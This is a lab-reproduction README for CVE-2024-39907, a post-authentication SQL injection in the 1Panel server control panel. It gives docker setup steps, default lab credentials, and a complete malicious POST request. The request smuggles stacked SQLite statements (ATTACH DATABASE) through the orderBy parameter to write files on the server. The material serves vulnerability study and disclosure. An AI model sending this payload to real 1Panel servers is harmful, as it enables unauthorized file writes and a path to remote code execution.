 # 1Panel Control Panel PostAuth SQL Injection (CVE-2024-39907)

[中文版本(Chinese version)](README.zh-cn.md)

1Panel is a web-based Linux server management control panel that provides a graphical interface for server administration.

CVE-2024-39907 is a collection of multiple SQL injection vulnerabilities present in the 1Panel control panel. These vulnerabilities exist across several interfaces of 1Panel, where insufficient filtering could allow attackers to achieve arbitrary file writes and ultimately remote code execution (RCE). This vulnerability affects 1Panel versions v1.10.9-lts and earlier, and has been patched in v1.10.12-lts.

References:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## Environment Setup

Execute the following command to start a vulnerable instance of 1Panel v1.10.10-lts:

```
docker compose up -d
```

After the server starts, access `http://your-ip:10086/entrance` using the following default credentials:

- Port: `10086`
- Username: `1panel`
- Password: `1panel_password`
- Entrance path: `entrance`

## Vulnerability Reproduction

After logging into the 1Panel control panel with the default credentials, the vulnerability exists in the `/api/v1/hosts/command/search` endpoint where the `orderBy` parameter lacks proper input validation, allowing SQL injection attacks.

Send the following malicious POST request to exploit the vulnerability:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

The malicious payload in the `orderBy` parameter exploits SQLite's ATTACH DATABASE functionality to create arbitrary files on the server filesystem, demonstrating successful SQL injection. When processed, the 1Panel backend executes the injected SQL commands without validation, confirming the vulnerability exists and can be exploited.

![1](1.png)

The successful execution of these database manipulation commands confirms that the SQL injection vulnerability can be exploited to achieve potential remote code execution.
